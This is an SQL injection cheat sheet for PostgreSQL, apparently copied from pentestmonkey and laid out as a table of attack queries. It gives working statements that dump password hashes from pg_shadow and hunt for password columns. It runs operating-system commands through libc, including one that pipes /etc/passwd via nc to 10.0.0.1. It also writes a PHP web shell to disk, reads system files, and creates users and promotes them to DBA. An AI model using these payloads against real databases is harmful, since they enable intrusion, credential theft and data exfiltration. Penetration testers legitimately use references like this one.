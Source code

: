 
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT version()</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; –comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user;<br>
SELECT current_user;<br>
SELECT session_user;<br>
SELECT usename FROM pg_user;<br>
SELECT getpgusername();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT usename FROM pg_user</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT usename, passwd FROM pg_shadow — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://pentestmonkey.net/blog/cracking-postgres-hashes/">MDCrack</a> can crack PostgreSQL’s MD5-based passwords.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT usename FROM pg_user WHERE usesuper IS TRUE</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT current_database()</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT datname FROM pg_database</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0<br>
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1); — returns c</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT 6 &amp; 2; — returns 2<br>
SELECT 6 &amp; 1; –returns 0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65);</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’);</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 as varchar);<br>
SELECT CAST(’1′ as int);</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’; — returnsAB</td>
</tr>
<tr>
<td>If Statement</td>
<td>IF statements only seem valid inside functions, so aren’t much use for SQL injection.&nbsp; See CASE statement instead.</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT CHR(65)||CHR(66); — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>SELECT pg_sleep(10); — postgres 8.2+ only<br>
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.&nbsp; Taken from <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">here</a> .</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Generally not possible in postgres.&nbsp; However if <a href="http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html">contrib/dblink</a>is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<p></p>
<pre>SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT);</pre>
<p>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.</p></td>
</tr>
<tr>
<td>Command Execution</td>
<td>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user</td>
</tr>
<tr>
<td>Local File Access</td>
<td>CREATE TABLE mydata(t text);<br>
COPY mydata FROM ‘/etc/passwd’; — priv, can read files which are readable by postgres OS-level user<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; — get data back one row at a time<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2; — get data back one row at a time …<br>
DROP TABLE mytest mytest;Write to a file:<p></p>
<p>CREATE TABLE mytable (mycol text);<br>
INSERT INTO mytable(mycol) VALUES (‘&lt;? pasthru($_GET[cmd]); ?&gt;’);<br>
COPY mytable (mycol) TO ‘/tmp/test.php’; –priv, write files as postgres OS-level user.&nbsp; Generally you won’t be able to write to the web root, but it’s always work a try.<br>
– priv user can also read/write files by <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">mapping libc functions</a></p></td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT inet_server_addr(); — returns db server IP address (or null if using local connection)<br>
SELECT inet_server_port(); — returns db server IP address (or null if using local connection)</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 PASSWORD ‘pass1′; — priv<br>
CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time</td>
</tr>
<tr>
<td>Drop Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>ALTER USER test1 CREATEUSER CREATEDB; — priv</td>
</tr>
<tr>
<td>&nbsp;Location of DB files</td>
<td>SELECT current_setting(‘data_directory’); — priv<br>
SELECT current_setting(‘hba_file’); — priv</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>template0<br>
template1</td>
</tr>
</tbody>
</table>